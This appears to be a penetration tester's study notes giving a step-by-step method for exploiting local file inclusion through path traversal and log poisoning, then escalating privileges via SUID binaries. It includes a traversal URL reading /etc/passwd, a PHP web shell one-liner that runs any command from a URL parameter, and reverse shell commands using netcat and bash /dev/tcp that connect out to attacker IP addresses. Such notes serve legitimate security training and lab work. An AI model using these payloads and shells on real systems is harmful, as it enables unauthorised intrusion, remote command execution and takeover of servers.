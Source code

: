 

# File Inclusion Attacks

## Locate

1. Examine the URLs of pages on the website.  Look for pages with parameters in the URL, which will be preceded with a `?` or an `&`.  
   Example: http://www.site.com/index.php?param1=page.php&param2=somevalue
2. Some parameters only pass text while others specify pages to include.  The most likely candidates for a path traversal vulnerability will be parameters that are loading a file with an extension.  
3. Test likely parameters by loading known files like `/etc/passwd`.  Remember to prepend this path with `../` to override the current working directory.  It's usually safest to just spam the path with `../` because you can't have too many prepended.
   Example: http://www.site.com/index.php?param1=../../../../../../../etc/passwd

## Inject

There are multiple ways to inject code into a system.  If file uploads are available, you can simply upload a file with the code, but this is rare.  Generally, on-system log files are 'poisoned' with malicious code and those log files are loaded to make the code execute.

1. After discovering a path traversal vulnerability, refer to the enumerated services on the server to discover any log files that may exist.  

2. Use Google to discover the default location of log files.  Most applications include a set of log files such as access and error logs.

3. Use the path traversal to try to load these log files to make sure you can access them.

4. Choose a log file that you can add data to by interacting with the server.  Likely candidates are access logs or auth logs, which will capture the text a client sends to the server.

5. Determine what programming language the web server uses.  Apache general uses PHP while Microsoft IIS uses asp or aspx.  You can also examine the URLs to find extensions that will point you to the language the site uses.

6. Determine what you want to run on the site.  Below is a good block of code to use, which adds a `cmd` parameter to the page that loads it.  You can set this parameter to any command and it will be run.
   *Note: Always surround the code with unique markers to make it easier to find in the logs.*

   ```bash
   [CNM352] <?php echo shell_exec($_GET['cmd']);?> [CNM352]
   ```

7. Reload the log file and look for the markers.  The code will not appear because the page will render it, but if the markers made it in, the code should be there.

## Execute

1. Reload the poisoned file.  If using the code above, specify in the URL a command to run by assigning it to the cmd parameter:
   http://www.site.com/index.php?param1=../../../../../../../mylog.log&cmd=My Command

2. Of the command contains any of the special characters shown below, you may need to encode the command in URL encoding.  Use the 'Encoding' tab of Burp Suite to do this easily, then paste the encoded text after the `cmd=` to run it.
   ![image-20220426000425862](.9.File-Inclusion.assets/image-20220426000425862.png)

3. You can insert reverse shell commands using this cmd parameter as well:

   ```bash
   # If netcat is present
   nc -nv 10.250.226.250 8000 -e /bin/sh
   
   # If netcat is not present
   bash &>/dev/tcp/10.10.14.37/8000 <&1
   ```

# SUID Privilege Escalation

SUID allows a user to run a file as the owner of the file.  For files owned by root, this could present an opportunity for privilege escalation.

1. After gaining shell access, enumerate the system for SUID binaries.  This can be done with an enumeration script to get ideas of which ones are good candidates or it can be done manually with the command: 

   ```bash
   find / -perm -u=s -type f 2>/dev/null
   ```

2. Search this site for SUID binaries to see if any provide a privilege escalation path:
   [https://gtfobins.github.io](https://gtfobins.github.io/)

   - Be sure to try other commands besides what is listed in the SUID section.  Sometimes you can run the commands listed in the sudo section even if you don't use sudo.

